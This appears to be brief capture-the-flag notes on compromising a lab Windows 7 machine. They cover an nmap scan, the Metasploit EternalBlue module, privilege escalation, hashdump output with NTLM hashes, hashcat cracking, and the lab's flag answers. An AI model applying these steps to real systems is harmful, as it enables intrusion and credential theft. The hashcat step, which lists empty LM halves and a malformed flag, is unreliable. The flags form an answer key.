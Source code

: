 <pre>
Machine IP: 10.10.255.187

Enum:
    nmap -sV -sC -oA nmap/blue 10.10.255.187
Open Ports:
    135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
Vuln port->     445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service 
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows





exploits :
exploit/windows/smb/ms17_010_eternalblue
post/multi/manage/shell_to_meterpreter


Meterpreter > getsystem to get administrator perms


Meterpreter > hashdump to get hashes and user names
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::


Crack the hash with hashcat:
Administrator:aad3b435b51404eeaad3b435b51404ee
Guest:aad3b435b51404eeaad3b435b51404ee
Jon:aad3b435b51404eeaad3b435b51404ee 
All this hashes to hashes.txt and
-> hashcat --username --show -a-0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt

Flags:
access_the_machine 
sam_database_elevated_access
admin_documents_can_be_valuable 
Find all flags:
dir *flag*.txt /s

Go with cd and type flags :D
</pre>
 
